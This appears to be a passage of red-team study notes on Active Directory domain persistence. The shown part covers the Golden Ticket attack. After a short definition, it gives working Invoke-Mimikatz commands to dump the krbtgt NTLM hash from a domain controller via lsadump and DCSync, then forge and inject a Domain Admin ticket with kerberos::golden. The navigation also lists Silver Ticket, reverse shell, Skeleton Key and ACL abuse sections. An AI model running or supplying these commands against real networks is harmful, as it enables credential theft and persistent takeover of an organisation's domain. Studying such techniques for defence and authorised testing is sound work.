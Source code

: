 # Domain Persistence
---
# Navigation
- **[Golden Ticket](#Golden%20Ticket)**
	- [Definition](#Definition)
	- [Attack](#Attack)
- **[Silver Ticket](#Silver%20Ticket)**
	- [Definition](#Definition)
	- [Attack](#Attack)
	- [Getting a reverse shell](#Getting%20a%20reverse%20shell)
- **[Skeleton key](#Skeleton%20key)**
	- [Attack](#Attack)
- **[ACLS](#ACLS)**
	- [Definition](#Definition)
	- [Well known abused protected groups](#Well%20known%20abused%20protected%20groups)
	- [Some of the Active Directory object permissions and types that we as attackers are interested in](#Some%20of%20the%20Active%20Directory%20object%20permissions%20and%20types%20that%20we%20as%20attackers%20are%20interested%20in)
	- **[Attack](#Attack)**
		- [AdminSDHolder](#AdminSDHolder)
		- [Rights Abuse](#Rights%20Abuse)
		- [Security Descriptors](#Security%20Descriptors)
			- [Remote registry](#Remote%20registry)


>**Important:**
>[Synchronizing time is important](Kerberoas#Synchronizing%20time%20is%20important)
---
# Golden Ticket
## Definition
A valid **TGT as any user** can be created **using the NTLM hash of the krbtgt AD account**. The advantage of forging a TGT instead of TGS is being **able to access any service** (or machine) in the domain and the impersonated user.
The **krbtgt** account **NTLM hash** can be **obtained** from the **lsass process** or from the **NTDS.dit file** of any DC in the domain.
## Attack
1. Dumping hashes (Requires DA privilege)
```powershell
#On DC (Nishang module)
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'

#Using DcSync (Quiter)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
```
2. Generating the ticket
```powershell
#On any machine (Nishang module)
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN-FQDN> /sid:<Domain-SID> /krbtgt:<NTLM> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
>Note: `/ptt` injects the ticket in the current powershell process (no need to save  the ticket on disk).Alternatively you can use `/ticket` to save the  ticket in a file for later use.

